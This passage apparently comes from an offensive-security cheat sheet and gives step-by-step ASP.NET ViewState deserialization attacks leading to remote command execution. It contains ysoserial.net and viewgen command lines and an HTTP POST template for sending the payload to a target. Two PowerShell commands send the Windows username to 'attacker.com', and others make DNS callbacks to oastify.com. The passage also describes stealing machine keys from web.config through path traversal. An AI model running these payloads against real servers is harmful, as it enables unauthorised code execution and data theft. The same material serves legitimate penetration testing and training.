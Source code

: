 ```
➤ Step 3. Generate a signed (OS command) payload with the tool 'ysoserial.net' and the pre-shared validation key and the '__VIEWSTATEGENERATOR' value
           - Tool: https://github.com/pwntester/ysoserial.net
           - C:\temp> .\ysoserial.exe -p ViewState -g TypeConfuseDelegate -c "cmd.exe /c nslookup <snip>.oastify.com" --islegacy --isdebug --apppath="/auditaspx/"  --validationalg="SHA1" --validationkey="C50B3C89CB21F<snip>" --generator=306A601A
           OR
           - C:\temp> .\ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=306A601A --validationalg="SHA1" --validationkey="C50B3C89CB21F<snip>"

➤ Step 4. Send an HTTP POST request with the generated "_ViewState=<signed-payload-with-yoserial>" to a Web page of the target Website to execute an arbitrary OS command on the underlying Windows server
           - Example:
             POST /any-web-page.aspx HTTP/1.1
             Host: target-website.com
             Cookie: <SNIP>
             <SNIP>
             Connection: close
		
             __VIEWSTATE=<signed-payload-generated-with-yoserial>&__VIEWSTATEGENERATOR=306A601A&__EVENTVALIDATION=<SNIP>&<SNIP>
```
```
Example 2 - Context: Any .Net framework version and EnableViewStateMac=False and ViewStateEncryptionMode=false
--------------------------------------------------------------------------------------------------------------
➤ Step 1. Identify that both the ViewState MAC and encryption are disabled for a target .Net Web application using the Burp Web proxy

➤ Step 2. Generate a malicious (OS command) payload with the tool 'ysoserial.net'
           - Tool: https://github.com/pwntester/ysoserial.net
           - C:\temp> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName"

➤ Step 3. Send an HTTP POST request with the generated "_ViewState=<payload-gnerated-with-yoserial>" to a Web page of the target Website to execute an arbitrary OS command on the underlying Windows server
```
```
Example 3 - Context: .Net framework > 4,5 and EnableViewStateMac=true and ViewStateEncryptionMode=true and We have access to the 'web.config' file
--------------------------------------------------------------------------------------------------------------------------------------------------
➤ Step 1. Get unauthorized access to the 'web.config' file of a .Net Web application by exploiting for example a file path traversal vulnerability 
           - Note: the validation and decryption keys and algorithms can be found within the machineKey section of the configuration file 'web.config' (or machine.config)

➤ Step 2. Generate a malicious payload with the tool 'ysoserial.net'
           - Tool: https://github.com/pwntester/ysoserial.net
           - C:\> ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "nslookup <snip>4v913vu1lpfd4.oastify.com"

➤ Step 3. Grab a '__VIEWSTATEGENERATOR' value (modifier e.g. '306A601A') from a web page of the target .NET Web application

➤ Step 4. Generate a signed/encrypted (OS command) payload using the tool 'viewgen'
           - Tool: https://github.com/0xACB/viewgen
           - $ viewgen --webconfig web.config --modifier <MODIFIER-value> <signed-encrypted-payload-generated-with-yoserial>

```